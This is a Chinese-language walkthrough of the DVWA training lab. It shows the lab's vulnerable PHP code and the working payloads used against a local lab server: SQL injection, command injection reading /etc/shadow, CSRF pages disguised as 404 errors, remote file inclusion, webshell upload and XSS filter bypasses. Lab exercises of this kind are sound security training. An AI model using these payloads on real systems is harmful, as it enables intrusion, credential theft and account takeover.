

## DVWA 通关指南

 ### LOW

#### BRUTE Force（爆库）

```php
<?php
if( isset( $_GET[ 'Login' ] ) ) {
    // Get username
    $user = $_GET[ 'username' ];

    // Get password
    $pass = $_GET[ 'password' ];
    $pass = md5( $pass );

    // Check the database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
        // Get users details
        $avatar = mysql_result( $result, 0, "avatar" );

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    mysql_close();
}
?>
```

分析代码，服务器只是验证了参数Login是否被设置（isset函数在php中用来检测变量是否设置，该函数返回的是布尔类型的值，即true/false），没有任何的防爆破机制，且对参数username，password，没有做任何过滤就直接带入数据库查询，并没有做相关的处理，所以可以尝试万能密码登录

万能密码

```
username = admin'#
password = all

username = admin' or '1'='1
password = all
```



burp爆破，top 500_user,top100_password


尝试在爆破结果中找到正确的密码，可以看到password的响应包长度（length）“与众不同”，可推测password为正确密码，手工验证登陆成功。

#### Command Injection

命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一，国内著名的Web应用程序Discuz!、DedeCMS等都曾经存在过该类型漏洞

```php
<?php 
if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $target = $_REQUEST[ 'ip' ]; 
    // Determine OS and execute the ping command. 
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
        // Windows 
        $cmd = shell_exec( 'ping  ' . $target ); 
    } 
    else { 
        // *nix 
        $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
    } 
    // Feedback for the end user 
    echo "<pre>{$cmd}</pre>"; 
} 
?> 
```

相关函数介绍 

*stristr(string,search,before_search)*

stristr函数搜索字符串在另一字符串中的第一次出现，返回字符串的剩余部分（从匹配点），如果未找到所搜索的字符串，则返回FALSE。参数string规定被搜索的字符串，参数search规定要搜索的字符串（如果该参数是数字，则搜索匹配该数字对应的ASCII值的字符），可选参数before_true为布尔型，默认为“false”，如果设置为“true”，函数将返回search参数第一次出现之前的字符串部分。

*php_uname(mode)*

这个函数会返回运行php的操作系统的相关描述，参数mode可取值”a” （此为默认，包含序列”s n r v m”里的所有模式），”s ”（返回操作系统名称），”n”（返回主机名），” r”（返回版本名称），”v”（返回版本信息）， ”m”（返回机器类型）。

可以看到，服务器通过判断操作系统执行不同ping命令，但是对ip参数并未做任何的过滤，导致了严重的命令注入漏洞

漏洞利用

window和linux系统都可以用&&来执行多条命令

```
127.0.0.1&&net user

127.0.0.1&&cat /etc/shadow

127.0.0.1&& whoami
```


#### CSRF

CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    mysql_close();
}

?>
```

可以看到，服务器收到修改密码的请求后，会检查参数password_new与password_conf是否相同，如果相同，就会修改密码，并没有任何的防CSRF机制（当然服务器对请求的发送者是做了身份验证的，是检查的cookie，只是这里的代码没有体现）。

漏洞利用

使用burp抓包，可以看到请求中包含了修改密码


1.将url copy下来

```
http://192.168.124.131/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change
```

当受害者点击了这个链接，他的密码就会被改成password（这种攻击显得有些拙劣，链接一眼就能看出来是改密码的，而且受害者点了链接之后看到这个页面就会知道自己的密码被篡改了）

需要注意的是，CSRF最关键的是利用受害者的cookie向服务器发送伪造请求，所以如果受害者之前用Chrome浏览器登录的这个系统，而用火狐浏览器点击这个链接，攻击是不会触发的，因为火狐浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面。

2.短链接

可以使用短链接来隐藏URL（点击短链接，会自动跳转到真实网站）：`http://mrw.so/4NnRyv`

虽然利用了短链接隐藏url，但受害者最终还是会看到密码修改成功的页面，所以这种攻击方法也并不高明

3.构造攻击页面

使用burp抓包之后，使用Generate CSRF POC 功能，可以生成简单的HTML代码，如下


但是此代码打开效果就一个button，需要点击才会触发，如果点击之后，那么受害者也会发现自己的密码被更改了，所以此方法只是用来测试是否存在CSRF，在得知请求之后可以使用如img，body标签，直接请求

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	
	<h1>404</h1>
	<h1>您访问的页面不存在</h1>
  </body>
</html>
```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	<!---->
	<h1>404</h1>
	<h1>您访问的页面不存在</h1>
  </body>
  <script src="http://192.168.124.131/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change"></script>
</html>
```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body onload="getCSRF()">
	<!---->
	<h1>404</h1>
	<h1>您访问的页面不存在</h1>
  </body>
  <script>
	function getCSRF(){
	  var img = document.createElement('img')
	  img.src = 'http://192.168.124.131/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change'
	  img.style.display = 'none'
	  document.body.appendChild(img)
	}
  </script>
</html>
```

#### File Inclusion

File Inclusion，意思是文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```

可以看到，服务器端对page参数没有做任何的过滤和检查。

服务器期望用户的操作是点击下面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容确为php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

漏洞利用

1.本地文件包含

构造url

`http://192.168.124.131/vulnerabilities/fi/?page=/etc/passwd`


成功读取/etc/passwd文件

由于环境是在docker中，shadow是 rw-r-----，当前不是root用户，所以修改权限 644 就可以读取shadow文件


2.远程文件包含

当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。在远程服务器192.168.124.1上传一个info.txt文件，内容如下


构造url为

`http://192.168.124.131/vulnerabilities/fi/?page=http://192.168.124.1/upload/upload/info.txt`


成功在服务器上执行了phpinfo函数

为了增强隐蔽性可以对

`http://192.168.124.1/upload/upload/info.txt`进行编码
`http://192.168.124.131/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%32%34%2e%31%2f%75%70%6c%6f%61%64%2f%75%70%6c%6f%61%64%2f%69%6e%66%6f%2e%74%78%74`

#### File upload

文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的，Apache、Tomcat、Nginx等都曝出过文件上传漏洞

```php
 <?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

*basename(path,suffix)*

函数返回路径中的文件名部分，如果可选参数suffix为空，则返回的文件名包含后缀名，反之不包含后缀名。可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。

可以看到文件上传没有做任何限制，可以上传任何文件，上传一句话拿到webshell


使用蚁剑直接连接，口令为Cknife，然后蚁剑就会通过向服务器发送包含Cknife参数的post请求，在服务器上执行任意命令，获取webshell权限。可以下载、修改服务器的所有文件


#### SQL Injection

SQL注入,是指攻击者通过注入恶意的SQL命令，破坏SQL查询语句的结构，从而达到执行恶意SQL语句的目的。SQL注入漏洞的危害是巨大的，常常会导致整个数据库被“脱裤”，尽管如此，SQL注入仍是现在最常见的Web漏洞之一

1.判断是否存在注入，注入是字符型还是数字型

2.猜解SQL查询语句中的字段数

3.确定显示的字段顺序

4.获取当前数据库

5.获取数据库中的表

6.获取表中的字段名

7.下载数据

```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Get values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    mysql_close();
}

?>
```

查看源码，发现注入点是id，并且是字符型注入，服务端接收id参数，没有做任何处理，并且有回显，和报错详情，可以使用联合查询和报错注入以及时间盲注来实现手工注入
union

```
order by 猜列数
paylod： 1' order by 2#
爆当前库，版本信息
payload: -1' union select database(),version()#
爆库
payload: -1' union select 1,group_concat(schema_name) from information_schema.schemata#
爆表
payload: -1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()#
爆列
payload: -1' union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users'#
```

报错注入

```
updatexml()
payload: 1' and updatexml(1,concat(0x23,database()),1)#
payload: 1' and updatexml(1,concat(0x23,(select table_name from information_schema.tables where table_schema = database() limit 1 offset 0)),1)#

extractvalue()
payload: 1' and extractvalue(1,concat(0x23,database()))#
payload: 1' and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema = database() limit 1 offset 0)))#

floor
payload: 1' and (SELECT 1 from  (SELECT count(*),concat(0x23, database(), 0x23,floor(rand(0)*2)) as x from information_schema.`COLUMNS` GROUP BY x)  as y)#
payload: 1' and (SELECT 1 from  (SELECT count(*),concat(0x23, (select table_name from information_schema.tables where table_schema = database() limit 0,1), 0x23,floor(rand(0)*2)) as x from information_schema.`COLUMNS` GROUP BY x)  as y)#
```

时间盲注

```
payload: 1' and if(1=1,sleep(2),0)#
payload: 1' and if(ascii(substr(database(),1,1))<101,sleep(2),1)#
```

#### SQL Injection (Blind)

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    mysql_close();
}

?>
```

基于布尔盲注需要页面有回显，此时当页面查询出正确的值，$num>0,则是正确的回显，User ID exists in the database.
否则则是错误的回显，说明sql查询不存在回显为User ID is MISSING from the database

布尔盲注

```
payload: 1' and ascii(substr(database(),1,1))<101#
```

时间盲注

```
payload: 1' and if(1=1,sleep(2),1)#
payload: 1' and if(1=2,sleep(2),1)#
```

#### XSS（ Reflected）

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

可以看到，代码直接引用了name参数，并没有任何的过滤与检查，存在明显的XSS漏洞(反射型XSS)

在input框输入

```
<script>alert('123')</script>
```

可以构造url为

`http://192.168.124.131/vulnerabilities/xss_r/?name=<script>alert('xss')<%2Fscript>`

对参数name进行url编码

`http://192.168.124.131/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%27%78%73%73%27%29%3c%2f%73%63%72%69%70%74%3e`

#### XSS（Stored）

```php
<?php 
if( isset( $_POST[ 'btnSign' ] ) ) { 
    // Get input 
    $message = trim( $_POST[ 'mtxMessage' ] ); 
    $name    = trim( $_POST[ 'txtName' ] ); 
    // Sanitize message input 
    $message = stripslashes( $message ); 
    $message = mysql_real_escape_string( $message ); 
    // Sanitize name input 
    $name = mysql_real_escape_string( $name ); 
    // Update database 
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 
    //mysql_close(); 
} 
?>
```

相关函数介绍

trim(string,charlist)函数移除字符串两侧的空白字符或其他预定义字符，预定义字符包括、\t、\n、\x0B、\r以及空格，可选参数charlist支持添加额外需要删除的字符

mysql_real_escape_string(string,connection)函数会对字符串中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义

stripslashes(string)函数删除字符串中的反斜杠

可以看到，对输入并没有做XSS方面的过滤与检查，且存储在数据库中，因此这里存在明显的存储型XSS漏洞

message一栏输入`<script>alert(/xss/)</script>`，成功弹框：

name一栏前端有字数限制，抓包改为`<script>alert(/name/)</script>`

成功弹框

### Medium

#### BRUTE Force（爆库）

```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = mysql_real_escape_string( $user );

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = mysql_real_escape_string( $pass );
    $pass = md5( $pass );

    // Check the database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
        // Get users details
        $avatar = mysql_result( $result, 0, "avatar" );

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        sleep( 2 );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    mysql_close();
}

?>
```

相比Low级别的代码，Medium级别的代码主要增加了mysql_real_escape_string函数，这个函数会对字符串中的特殊符号（x00，n，r，，’，”，x1a）进行转义，基本上能够抵御sql注入攻击，说基本上是因为查到说 MySQL5.5.37以下版本如果设置编码为GBK，能够构造编码绕过mysql_real_escape_string 对单引号的转义（因实验环境的MySQL版本较新，所以并未做相应验证）；同时，$pass做了MD5校验，杜绝了通过参数password进行sql注入的可能性。但是，依然没有加入有效的防爆破机制（sleep(2)实在算不上）

和Low级别一致，使用burp爆破，采用usernametop_500和passwordtop_100的字典

#### Command Injection

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

查看源码，这里将`&&`和`;` 做了过滤，当出现`&&`和`;`将会被代替为空格，使其不能命令执行，很明显这是黑名单策略，只要绕过黑名单就可以了

在windows中，`&&`和`&`,`||`都可以执行多条命令

| 参数 | 描述                                                         |
| ---- | ------------------------------------------------------------ |
| &&   | Command 1&&Command 2，先执行Command1 执行成功后再执行Command 2，否则不执行 |
| &    | Command 1&Command 2，先执行Command 1，不管是否成功，都会执行Command 2 |
| \|\| | Command 1 \|\| Command 2，当Command1 执行失败才会执行Command2，否则只执行Command1 |

在linux中，`&&`,`;`,`||` 可以执行多条命令

| 参数 | 描述                                                         |
| ---- | ------------------------------------------------------------ |
| &&   | Command 1&&Command 2，先执行Command1 执行成功后再执行Command 2，否则不执行 |
| ;    | Command 1&Command 2，先执行Command 1，不管是否成功，都会执行Command 2 |
| \|\| | Command 1 \|\| Command 2，当Command1 执行失败才会执行Command2，否则只执行Command1 |

由于搭建的环境是linux，`&&`，`;`都已经被过滤掉了，所以采用`||` 第一个参数ip可以乱写一个ip，如127.0之类的，然后再添加响相应的命令执行

```
payload: 127.0 || whoami
```

#### CSRF

```php

<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = mysql_real_escape_string( $pass_new );
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    mysql_close();
}

?>
```

相关函数说明

int eregi(string pattern, string string)

检查string中是否含有pattern（不区分大小写），如果有返回True，反之False。

可以看到，Medium级别的代码检查了保留变量 HTTP_REFERER（http包头的Referer参数的值，表示来源地址）中是否包含SERVER_NAME（http包头的Host参数，及要访问的主机名，这里是192.168.124.130），希望通过这种机制抵御CSRF攻击

漏洞利用

过滤规则是http包头的Referer参数的值中必须包含主机名

那么可以将文件命名为受害者的ip.html 放在攻击者服务器中，诱导受害者点击,则可以成功修改密码


####  File Inclusion

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
?>
```

可以看到，Medium级别的代码增加了str_replace函数，对page参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除。

漏洞利用

使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。

str_replace函数会将http://删除，于是双写`hthttp://tp://`，成功执行远程命令。

同时，因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。

#### File upload

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

对上传文件的类型、大小做了限制，要求文件类型必须是jpeg或者png，大小不能超过100000B（约为97.6KB）。

方法一：组合拳

可以上传图片马，然后使用文件包含漏洞去访问图片，文件包含访问图片会将图片按PHP解析

上传图片马（size<100000B）


在文件包含模块中访问该文件


直接上蚁剑,在这里注意，访问文件包含模块中必须要在登录状态中，所以在HTTP头中添加Cookie，然后再连接


方法二：通过burp修改Content-Type 为image/png


发现文件上传成功，上蚁剑


#### SQL Injection

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysql_real_escape_string( $id );

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Display values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    //mysql_close();
}

?>
```

mysql_real_escape_string函数对特殊符号 \x00,\n,\r,\,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入

但是在注入点，id 为int型，当爆列名时需要加单引号，可以将其转换为十六进制

根据爆列名的特殊情况的payload

```
payload: -1 union select 1,group_concat(column_name) from information_schema.columns where table_name = 0x7573657273
```

#### SQL Injection (Blind)

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysql_real_escape_string( $id );

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    //mysql_close();
}

?>
```

整形注入，布尔盲注，以及时间注入，类似于low级别，使用burp抓包改包

#### XSS（ Reflected）

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```

可以看到将参数中的`<script>`替换成空字符串，可以使用双写绕过,或者大小写编码

```
payload： <scr<script>ipt>alert('xss')</script>
payload: <scRiPt>alert('xss')</ScRipt>
```

#### XSS（Stored）

```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = mysql_real_escape_string( $message );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = mysql_real_escape_string( $name );

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    //mysql_close();
}
?> 
```

strip_tags() 函数剥去字符串中的HTML、XML以及PHP的标签，但允许使用<b>标签。

addslashes() 函数返回在预定义字符（单引号、双引号、反斜杠、NULL）之前添加反斜杠的字符串。

可以看到，由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码，但是对于name参数，只是简单过滤了<script>字符串，仍然存在存储型的XSS。

name 参数中`<script>`转换为空格，虽然在前端做了处理，不能超过规定字符，那么通过抓包改包，双写`<script>`来实现xss,或者大小写实现xss

```
payload:
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: 192.168.124.130
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Connection: close
Referer: http://192.168.124.130/vulnerabilities/xss_s/
Cookie: PHPSESSID=covp1pifd04hv2he3f5lfl1875; security=medium
Upgrade-Insecure-Requests: 1

txtName=<sc<script>ript>alert('aaron')</script>&mtxMessage=test&btnSign=Sign+Guestbook
```

### High

#### BRUTE Force（爆库）

```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = stripslashes( $user );
    $user = mysql_real_escape_string( $user );

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = mysql_real_escape_string( $pass );
    $pass = md5( $pass );

    // Check database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
        // Get users details
        $avatar = mysql_result( $result, 0, "avatar" );

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

High级别的代码加入了Token，可以抵御CSRF攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：username、password、Login以及user_token

每次服务器返回的登陆页面中都会包含一个随机的user_token的值，用户每次登录时都要将user_token一起提交。服务器收到请求后，会优先做token的检查，再进行sql查询

同时，High级别的代码中，使用了stripslashes（去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个）、 mysql_real_escape_string对参数username、password进行过滤、转义，进一步抵御sql注入。

由于加入了Anti-CSRFtoken预防无脑爆破，这里就不推荐用Burpsuite了

#### Command Injection

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

黑名单策略，观察`|`是|+空格被转换为空字符串，所以可以使用空格+|+命令来实现命令执行

```
payload : 127.0.0.1 |whoami
payload : 127.0.0.1|whoami
```

#### CSRF

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
